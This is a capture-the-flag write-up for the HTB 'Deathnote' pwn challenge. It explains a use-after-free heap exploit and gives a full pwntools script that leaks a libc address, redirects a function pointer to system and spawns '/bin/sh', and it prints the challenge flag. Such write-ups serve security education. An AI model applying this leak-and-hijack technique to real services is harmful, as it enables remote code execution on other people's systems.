 # Cyber Apocalypse 2024

# Deathnote

> You stumble upon a mysterious and ancient tome, said to hold the secret to vanquishing your enemies. Legends speak of its magic powers, but cautionary tales warn of the dangers of misuse.

## Analysis

First let's examine what we got. The deathnote binary is a simple note app with 4 functionalities. It is a secret what function 42 does, haha.

![image](https://github.com/respawnRW/writeups/assets/163560495/491c9633-53eb-4064-beb4-e4b833991a99)

Let's check the binary securities, we also know that it's a pwn challenge, we ned to know what we are facing.
```bash
└─$ checksec deathnote     
[*] '/home/kali/htb_stuffz/ctf_2024/pwn_deathnote/challenge/deathnote'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

Main options that are self-explanatory functionalities are note creation (create note), remove entry (freeing up), and displaying a note.

If we launch the binary, functionalities 1-3 are working fine. Nonetheless, the option 42 is giving us a segmentation fault.

![image](https://github.com/respawnRW/writeups/assets/163560495/2052f961-f70a-4f83-b6ad-94e8d3260220)

Assumption is that we are trying to execute memory location, something that causes the segmentation fault. 

And we're going to work on this! Option no 42 is the key ?¿?¿? to pwn.

## Solution

What we can see during the disassembly is that our assumption was correct. Option 42 is trying to execute the address from page 0 with the argument of page 1 as parameter. This means we are going to attemt use after free vulnerability exploitation. Malloc metadata from the freed chunks should be leakable. Our plan is to prepare the heap, fill up the tcache bins, so the metadata of malloc is going to leak the `unsortedbin` address in libc and finally we can calculate the base address of it.

It's pretty simple actually. Our approach is going to be abusing a user-after-free vulnerability, the strategy is exploiting the heap and leveraging a leak to call a libc function. In order to prepare for the heap manipulation, we need to set up the necessary conditions for the buffer overflow. This means filling up the tcache bins by creating and deleting several notes. Once the setup is ready, we can remove a note and the libc pointer is going to be put in its place. We can then proceed to read this note. Which isn't going to be a note, hell yeah; because that's how we're going to leak the libc address. From this point, we can find the system function's address in memory. 

By creating another note, we can manipulate execution flow, and rewrite the function pointer/return address where we want to: to the system function's address. The second note that we create now is going to be the argument of the ystem function call, which is `'/bin/sh'` since we are planning to spawn a shell. And knowing from the disassembled code, we can now launch that undocumented super-secret '#42' functionality. That command #42 is going to trigger the execution flow of our buffer overflow. And that's it, wrapping it up.

Check out the entire pwner script fully commented, everything should make sense.

```python
#!/usr/bin/env python3

from pwn import *
import time

context.binary = elf = ELF('./deathnote')
context.log_level = 'error'

io = remote("94.237.57.59", 34787) if args.REMOTE else process()

def create_note(size, page, content):
    # note creation function
    io.recv(2048)
    io.sendline(b'1')  # Send the option to create a note
    io.recv(2048)
    io.sendline(str(size).encode())
    io.recv(2048)
    io.sendline(str(page).encode())
    io.recv(2048)
    io.sendline(content)

def free_note(page):
    # Function to delete a note corresponding to the specified page number
    io.recv(2048)
    io.sendline(b'2')  # send the option #2 to free up
    io.recv(1024)
    io.sendline(str(page).encode())

def read_note(page):
    # Function to read a note from the specified page number
    io.recv(2048)
    io.sendline(b'3')  # send option #3 to read
    io.recv(1024)
    io.sendline(str(page).encode())

def execute_code():
    # triggering the buffer overflow and RCE
    io.recv(2048)
    io.sendline(b'42')  # option 42 ????

# fill up tcache bins, prepare for buffer overflow
for i in range(0, 10):
    create_note(128, i, b'blah')

for i in range(1, 10):
    free_note(i)

# where the leak happens, freeing a note then reading it, will contain a pointer to libc!
free_note(0)
read_note(0)
io.recvline()  # clear out any previous data up to a newline

# parse the leaked address (strip whitespaces, split at colon, and the address placed into variable)
leak = unpack(io.recvline().strip().split(b": ")[1].ljust(8, b'\x00'))

# calculating the libc address
libc_system = leak - 1875824

# let's create those 2 notes to overwrite function pointers, call to 'system' to execute '/bin/sh'
create_note(len(hex(libc_system)[2:].encode())+1, 0, hex(libc_system)[2:].encode())
create_note(len(b'/bin/sh')+1, 1, b'/bin/sh')

# let's wrap it up
execute_code()

io.interactive()
io.close()
```

And here's how the script is doing its job.

![image](https://github.com/respawnRW/writeups/assets/163560495/31d05974-1139-4d45-9bec-14fbfe018826)

Flag: `HTB{0m43_w4_m0u_5h1nd31ru~uWu}`

Be done with it.

Hope you find it useful,

`--RW`

## Resources

https://6point6.co.uk/insights/common-software-vulnerabilities-part-ii-explaining-the-use-after-free/
